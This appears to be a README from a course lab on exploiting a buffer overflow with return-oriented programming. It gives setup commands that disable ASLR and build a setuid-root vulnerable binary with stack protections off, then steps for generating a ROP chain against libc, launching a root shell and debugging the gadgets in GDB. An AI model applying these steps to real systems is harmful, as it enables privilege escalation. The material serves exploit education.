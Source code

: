 # How to Launch a Shell in a Vulnerable Program
## Setup
- Disable ASLR:
```
sudo sysctl -w kernel.randomize_va_space=0
```
- For our example vulnerable program, we'll use `vuln.c` from assignment 1:
```
gcc -o vuln -z execstack -fno-stack-protector vuln.c
sudo chown root vuln
sudo chmod 4755 vuln
```
- In this attack, we'll assume that libc is not statically linked to the executable
- Link zsh to sh:
```
sudo ln -sf /bin/zsh /bin/sh
```

## Find Base Address of libc
- Run `ldd vuln` to find this base address:
```
	linux-gate.so.1 =>  (0xb7fd9000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e09000)
	/lib/ld-linux.so.2 (0xb7fdb000)
```
- In this example, libc's base address is `0xb7e09000`

## How to Create an ROP Shellcode
- We'll create an ROP chain to launch a shell
	- `vuln` will execute the generated `shellcode` during a buffer overflow
```
python3 gen_shellcode.py --libc_offset <libc_offset>
```
- For example:
```
python3 gen_shellcode.py --libc_offset 0xb7e09000
```
- If the `--gadgets` argument is included, we will create a shellcode with gadgets stored in that file
- **Note**: We don't recommend using `--gadgets`, because the generated shellcode won't work 100% of the time. Some gadgets found by ROPHunter may be invalid, because the actual execution could interpret the bytes differently than the Capstone disassembler.

## How to Launch a Shell
- We use GDB to determine where in the stack to store parts of the shellcode; e.g. `"/bin/sh\0"`
- However, GDB's stack frame may not match normal execution
- We use `invoke.sh` to run `vuln` within the same environment (courtesy of https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it):
- Run `vuln` in normal execution:
```
./invoke.sh vuln
```

## How to Debug this ROP Chain
### Using GDB
- Run `vuln` with GDB:
```
./invoke.sh -d vuln
```
- Clear the two environment variables created by GDB:
```
unset env LINES
unset env COLUMNS
```

- We can then debug this ROP chain by setting breakpoints:
```
b main	# libc only gets loaded after main(), so we have to stop at main() before setting the other breakpoints
run
b *<Gadget address>	# e.g. First gadget's is 0x2c79c in libc, so we use 0xb7e3579c as the address
continue
```

### Finding Correct %esp
- For some parts of the shellcode, we need to store addresses to other places on the stack
- We calculate these addresses by using the address stored in `%esp` at the first gadget
	- With return-oriented programming, `%esp` acts as the instruction pointer
- We can find this address by using GDB and can pass this address to `gen_shellcode.py` with the argument `init_esp_addr`

### Determining Valid Gadgets
- If GDB stops at the expected instruction, then we have found the correct gadget
- Unfortunately, finding the right gadgets for an ROP shell is still trial-and-error. Some gadgets may be invalid, because GDB may not interpret the gadgets in the same way as the Capstone disassembler.
